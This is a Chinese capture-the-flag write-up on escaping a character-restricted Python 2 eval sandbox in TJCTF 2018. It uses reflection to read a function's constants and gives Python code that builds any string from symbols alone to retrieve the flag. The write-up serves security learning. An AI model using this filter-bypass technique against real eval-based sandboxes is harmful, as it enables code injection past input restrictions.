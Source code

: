 ```yaml
---
mathjax: true
title:  TJCTF2018：Mirror Mirror——一种绕过Py沙箱字符限制的方法
tag: [jail_escape]
date: 2018-08-14 19:24:11
categories: writeup
---
```


![1534248479004](1534248479004.png)

通过nc连接`problem1.tjctf.org:8004` ,题目提供一个Python交互终端。

根据题目描述 Reflection 可知与Python反射机制有关。

所谓反射机制就是能够通过向函数传入字符串参数，来操纵指定对象的类型、属性、方法和类。

> A Python script can find out about the type, class, attributes and methods of an object. This is referred to as **reflection** or **introspection**. See also [Metaclasses](https://en.wikibooks.org/wiki/Python_Programming/Metaclasses).
>
> Reflection-enabling functions include type(), isinstance(), callable(), dir() and getattr().
>
> —— https://en.wikibooks.org/wiki/Python_Programming/Reflection 

这里使用`dir()` 函数查看`get_flag` 的属性。

```python
λ nc problem1.tjctf.org 8004
Hi! Are you looking for the flag? Try get_flag() for free flags. Remember, wrap your input in double quotes. Good luck!
>>> get_flag()
Traceback (most recent call last):
  File "<console>", line 1, in <module>
TypeError: get_flag() takes exactly 1 argument (0 given)
>>> get_flag('1')
1 is not a valid character
>>> get_flag('@')
Traceback (most recent call last):
  File "<console>", line 1, in <module>
  File "/home/app/problem.py", line 23, in get_flag
    if(eval(input) == super_secret_string):
  File "<string>", line 1
    @
    ^
SyntaxError: unexpected EOF while parsing
>>> dir(get_flag)
['__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__doc__', '__format__', '__get__', '__getattribute__', '__globals__', '__hash__', '__init__', '__module__', '__name__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'func_closure', 'func_code', 'func_defaults', 'func_dict', 'func_doc', 'func_globals', 'func_name']
>>> dir(get_flag.func_code)
['__class__', '__cmp__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__le__', '__lt__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'co_argcount', 'co_cellvars', 'co_code', 'co_consts', 'co_filename', 'co_firstlineno', 'co_flags', 'co_freevars', 'co_lnotab', 'co_name', 'co_names', 'co_nlocals', 'co_stacksize', 'co_varnames']
>>> get_flag.func_code.co_consts
(None, 'this_is_the_super_secret_string', 48, 57, 65, 90, 97, 122, 44, 95, ' is not a valid character', '%\xcb', "You didn't guess the value of my super_secret_string")
>>>
```



探索后猜测要求向`get_flag()` 函数传入一个字符串，eval执行后等于super_secret_string就会返回flag。

`48, 57, 65, 90, 97, 122, 44, 95` 应该意味着ASCII值为 48~57，65~90，97~122，44和95的字符不被允许，也就是 `[a-zA-Z0-9,_]` 被禁用了，测试一下发现确实如此。此外 `'%\xcb'` 字符串也是一个提示。

这题应该是对 [A python's escape from PlaidCTF jail](https://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/) 的复现。主要目标是通过有限的字符 集 `({[<'":~%c>]}) ` 构造出任意的字符串。主要思路如下：

- `[]<{}` 逻辑值为True，等价于1；`[]<[]` 逻辑值为False，等价于0。

- 由1和0，结合按位取反`~` 和移位 `<<` 可以得到任意整数。

  ```python
  def brainfuckize(nb):
      if nb in [-2, -1, 0, 1]:
          return ["~({}<[])", "~([]<[])", "([]<[])", "({}<[])"][nb + 2]
      if nb % 2:
          return "~%s" % brainfuckize(~nb)
      else:
          return "(%s<<({}<[]))" % brainfuckize(nb / 2)
  
  
  def f(n):
      # 实际上这个函数就足够了，但生成的结果长度会比第一个长很多。
      if n == 0:
          return "([]<[])"
      return "~%s" % f(~n) if n % 2 else "(%s<<({}<[]))" % f(n / 2)
  
  
  print f(5), eval(brainfuckize(5)) == 5
  # ~(~(~(~([]<[])<<({}<[]))<<({}<[]))<<({}<[])) True
  ```

- 字符串 `%\xcb` 由`%` 和 `\xcb)` 两个字符构成。`repr('%\xcb')` 会得到一个七字符的字符串，其中包含`%` 和 `c` 。结合上面的得到的整数就可以构造任意字符了。

  ```python
  >>> for i in repr('%\xcb'):
  ...     print i,
  ...
  ' % \ x c b '
  >>> for i in `'%\xcb'`:
  ...     print i,
  ...
  ' % \ x c b '
  
  >>> `'%\xcb'`[1::3]
  '%c'
  >>> `'%\xcb'`[1::3]%97 == chr(97)
  True
  >>>
  ```

  在Python2 中 ，反引号包裹是 `repr()` 的快捷方式，效果完全一致。在Python3中反引号被废除了。

- 接下来就可以构造任意字符串并传给`get_flag()`了。

  ```python
  def bf(nb):
      if nb in [-2, -1, 0, 1]:
          return ["~({}<[])", "~([]<[])", "([]<[])", "({}<[])"][nb + 2]
      if nb % 2:
          return "~%s" % bf(~nb)
      else:
          return "(%s<<({}<[]))" % bf(nb / 2)
  
  
  def gen_single_char(c):
      return "`'%\\xcb'`[" + bf(1) + "::" + bf(3) + "]%(" + bf(ord(c)) + ")"
  
  
  secret = "this_is_the_super_secret_string"
  cmd = 'get_flag("%s")' % ('+'.join(gen_single_char(i) for i in secret))
  print cmd
  # tjctf{wh0_kn3w_pyth0n_w4s_s0_sl1pp3ry}
  ```

![1534253889627](1534253889627.png)